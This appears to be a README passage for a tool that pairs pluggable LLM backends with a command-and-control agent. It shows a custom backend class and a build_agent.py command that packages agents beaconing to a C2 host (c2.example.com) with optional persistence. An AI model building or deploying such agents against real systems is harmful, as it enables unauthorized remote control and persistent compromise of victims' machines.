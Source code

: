 Example:

```python
# llm_processor/apis/my_custom_llm.py
from ..base import BaseLLMBackend

class MyCustomLLMBackend(BaseLLMBackend):
    def __init__(self, api_key=None, **kwargs):
        super().__init__()
        self.api_key = api_key or os.environ.get("MY_CUSTOM_LLM_API_KEY")
        # Additional initialization
    
    def process_prompt(self, prompt, **kwargs):
        # Implement your LLM API call here
        response = self._call_api(prompt)
        return response
    
    def _call_api(self, prompt):
        # Implement actual API call
        pass
```

Then register it:

```python
# llm_processor/__init__.py
from .apis.my_custom_llm import MyCustomLLMBackend

# Register in the BACKENDS dictionary
BACKENDS = {
    "openai": OpenAIBackend,
    "anthropic": AnthropicBackend,
    "my_custom_llm": MyCustomLLMBackend,
    # ...
}
```

## Building and Deploying Agents

The `build_agent.py` script provides utilities for packaging the agent for deployment:

```bash
# Basic usage
python build_agent.py --output dist --type exe

# Full options
python build_agent.py --server-host c2.example.com --server-port 443 \
                     --output dist --type all --persist yes
```

### Build Options

- `--server-host`: C2 server hostname or IP address
- `--server-port`: C2 server port number
- `--output`: Output directory for the built agent
- `--type`: Package type (zip, exe, base64, all)
- `--persist`: Enable persistence mechanisms (yes/no)

